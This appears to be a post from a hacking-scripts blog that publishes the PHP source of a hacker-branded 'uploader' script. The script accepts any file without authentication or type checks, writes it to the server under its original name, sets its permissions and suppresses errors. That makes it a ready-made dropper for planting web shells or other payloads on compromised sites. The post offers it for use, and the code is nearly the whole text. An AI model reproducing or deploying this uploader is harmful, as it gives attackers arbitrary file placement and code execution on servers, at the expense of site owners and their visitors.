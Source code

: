 ```yaml
---
id: 205
title: Script Upload By QtRoNiX HaCkEr
author: admin
layout: post
guid: http://hackingscripts.com/?p=205
permalink: /script-upload-by-qtronix-hacker/
categories:
  - PHP
tags:
  - PHP
  - uploader
---
```

A simple uploader script by QtRoNiX HaCkEr.


### Script Upload By QtRoNiX HaCkEr Source Code

{% highlight php linenos %}<?php
echo '&lt;center&gt;&lt;font color="Red" size="4"&gt;';
/// Script Upload By QtRoNiX HaCkEr \\\
if(isset($_POST['Submit'])){
	$filedir = ""; 
	$maxfile = '2000000';
	$mode = '0644';
	$userfile_name = $_FILES['image']['name'];
	$userfile_tmp = $_FILES['image']['tmp_name'];
	if(isset($_FILES['image']['name'])) {
		$qx = $filedir.$userfile_name;
		@move_uploaded_file($userfile_tmp, $qx);
		@chmod ($qx, octdec($mode));
echo"&lt;center&gt;&lt;b&gt;Done ==&gt; $userfile_name&lt;/b&gt;&lt;/center&gt;";
}
}
else{
echo'&lt;form method="POST" action="#" enctype="multipart/form-data"&gt;&lt;input type="file" name="image"&gt;&lt;br&gt;&lt;input type="Submit" name="Submit" value="Upload"&gt;&lt;/form&gt;';
}
echo '&lt;/center&gt;&lt;/font&gt;';
?>
{% endhighlight %}